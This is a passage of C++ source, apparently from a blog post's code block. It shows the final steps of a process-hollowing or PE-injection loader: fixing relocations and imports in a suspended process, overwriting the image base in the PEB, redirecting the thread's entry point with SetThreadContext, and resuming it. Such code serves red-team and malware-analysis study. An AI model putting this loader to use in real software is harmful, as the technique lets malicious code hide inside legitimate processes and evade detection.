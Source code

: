         exit(1);

    if (!fixRelocTable(pi->hProcess, peToInjectRelocSection, allocAddrOnTarget, peToInjectContent, DeltaImageBase, relocationTable))
        exit(1);

    if (!loadImportTableLibs(peToInjectContent, peInjectNtHeaders, pi, allocAddrOnTarget, offsetRdata))
        exit(1);


    HANDLE mod = getSnapShotProcess(pi->dwProcessId);

    if (!fixImports(peToInjectContent, peInjectNtHeaders, pi, allocAddrOnTarget, offsetRdata, mod))
        exit(1);
    
    CONTEXT CTX = {};
    CTX.ContextFlags = CONTEXT_FULL;

    const BOOL bGetContext = GetThreadContext(pi->hThread, &CTX);
    if (!bGetContext)
    {
        _dbg("[-] An error is occured when trying to get the thread context.\n");
        return FALSE;
    }

    const BOOL bWritePEB = WriteProcessMemory(pi->hProcess, (LPVOID)(CTX.Rdx + 0x10), &peInjectNtHeaders->OptionalHeader.ImageBase, sizeof(DWORD64), nullptr);
    if (!bWritePEB)
    {
        _dbg("[-] An error is occured when trying to write the image base in the PEB.\n");
        return FALSE;
    }

    CTX.Rcx = (DWORD64)allocAddrOnTarget + peInjectNtHeaders->OptionalHeader.AddressOfEntryPoint;

    const BOOL bSetContext = SetThreadContext(pi->hThread, &CTX);
    if (!bSetContext)
    {
        _dbg("[-] An error is occured when trying to set the thread context.\n");
        return FALSE;
    }

    ResumeThread(pi->hThread);
    
    retrieveOutput(pi->hThread, hStdOut);

    return 0;
}
{% endhighlight %}
